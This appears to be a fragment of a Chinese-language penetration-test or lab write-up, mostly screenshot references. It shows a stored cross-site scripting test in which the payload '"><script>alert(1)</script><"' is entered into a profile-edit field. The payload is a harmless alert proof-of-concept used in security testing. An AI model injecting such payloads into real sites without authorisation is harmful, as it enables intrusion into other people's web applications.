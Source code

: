 <img src=".\图片\Snipaste_2023-05-29_13-14-53.png" alt="Snipaste_2023-05-29_13-14-53" style="zoom:80%;" />

修改个⼈信息，填写xss恶意脚本

```
"><script>alert(1)</script><"
```

<img src=".\图片\Snipaste_2023-05-29_13-17-05.png" alt="Snipaste_2023-05-29_13-17-05" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-05-29_13-17-14.png" alt="Snipaste_2023-05-29_13-17-14" style="zoom:67%;" />




